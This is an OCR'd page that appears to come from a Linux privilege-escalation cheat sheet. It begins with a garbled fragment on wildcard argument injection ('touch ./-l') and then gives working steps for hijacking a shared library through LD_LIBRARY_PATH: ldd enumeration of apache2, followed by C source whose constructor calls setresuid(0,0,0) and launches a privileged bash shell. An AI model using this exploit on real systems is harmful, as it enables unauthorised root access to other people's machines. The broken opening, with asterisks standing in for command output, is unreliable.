 The following commands should show how this works:

$ ls *
% touch ./-l
$ ls *
***
***
***
***
***
***

* * *

## **EXPLOIT LD_LIBRARY_PATH OPTION**

The LD_LIBRARY_PATH environment variable contains a set of directories where shared libraries are searched for first.

The ldd command can be used to print the shared libraries used by a program:

$ ldd /usr/sbin/apache2

By creating a shared library with the same name as one used by a program, and setting LD_LIBRARY_PATH to its parent directory, the program will load our shared library instead.

### Enumeration

Run ldd against the apache2 program file

$ ldd /usr/sbin/apache2
linux-vdso.so.1 => (0x00007fff063ff000)
...
libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f7d4199d000)
libdl.so.2 => /lib/libdl.so.2 (0x00007f7d41798000)
libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f7d41570000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7d42e84000)

Hijacking shared objects using this method is hit or miss. Choose one from the list and try it (libcrypt.so.1 seems to work well).

### Privilege Escalation

Create a file (library_path.c) with the following contents

#include <stdio.h>
#include <stdlib.h>
static void hijack() __attribute__((constructor));
void hijack() {
unsetenv("LD_LIBRARY_PATH");
setresuid(0,0,0);
system("/bin/bash -p");
}
